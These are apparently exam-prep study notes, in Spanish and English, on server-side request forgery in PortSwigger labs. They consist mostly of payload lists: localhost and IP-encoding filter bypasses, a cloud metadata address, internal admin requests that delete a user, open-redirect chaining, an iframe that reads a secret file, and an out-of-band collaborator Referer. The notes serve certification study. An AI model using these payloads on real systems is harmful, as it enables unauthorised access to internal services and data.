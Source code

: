 Los bellos ataques server side request forgery, poder nosotros acceder a info privada, interna de un servidor desde la interfaz visual de la aplicación en internet, este ataque es seguro que puede aparecer en el stage `3` para poder acceder al secret. 

## IMPORTANTE: 

**Cuando encuentre en un lab o en el BSCP una APP que no devuelve /admin, no tiene scripts curiosos que podamos explotar, no tiene una funcionalidad que podamos analizar para explotar, el brute force attack del LOGIN por el rate limit tampoco funciona, tampoco podemos ingresar como wiener y tras de eso el FFUF no encuentra enpoints ocultos, el ataque va directamente en modificar algo de la request principal de la app, su host header, un nuevo param body, un web cache (si devuelve reglas de caché, etc)**

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1
# SSRF Payloads

> Server side request forgery

```
127.0.0.1
127.1
169.254.169.254
```

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```

```
017700000001
```

<hr>

- Direct SSRF:

```
stockApi=http://localhost/admin/
```

- Find Endpoint in Intruder:

```html
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

- Blind with Referer with out-of-band detection: `Referer`

![](Pasted%20image%2020250226223433.png)

```
Referer: http://BURP-COLLABORATOR.com
```

- Simple Bypasses:

```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user, o simplemente codear todo a doble url, esto: /admin
```

- Via Open Redirection:

```
Redirection in:
/product/nextproduct?path=http://192.168.0.12:6566/admin

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:6566/admin/delete?username=carlos
```

You can change the URL of stockApi to make another api action, such as delete a user

```html
stockApi=http://localhost/admin/delete?username=carlos
```

##### Basic SSRF against another back-end system 

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`. Send to Intruder:

**SSRF localhost:6566 o 192.168.0.[burp intruder]** Como recomendacion portswigger dice que para los ataques durante el examen si se encuentra un SSRF es tirarlo por el puerto 6566

```html
stockApi=http://192.168.0.§1§:8080/admin //BURP INTRUDER
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

We find out that .31 has different lenght and we can delete carlos

```html
stockApi=http://192.168.0.31:8080/admin/delete?username=carlos
stockApi=http://192.168.0.31:6566/admin/delete?username=carlos
```

Exam SSRF

```
{"table-html":"<div><p>Report Heading</p><iframe src='http://localhost:6566/home/carlos/secret'"}
```

##### Blind SSRF with out-of-band detection

Change referer header to your collaborator

```
...
Sec-Fetch-Dest: document
Referer: http://BURP-COLLABORATOR.com
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```

##### SSRF with blacklist-based input filter


```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```

##### SSRF with filter bypass via open redirection vulnerability

To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

Recordemos, for the exam the port must be: `6566` 

```
Changing directly is blocked, but we can abuse an open redirection vuln in /product/nextproduct?path=http://192.168.0.12:8080/admin

Observe that the stock checker follows the redirection and shows you the admin page.

Change stockApi from before to: /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

```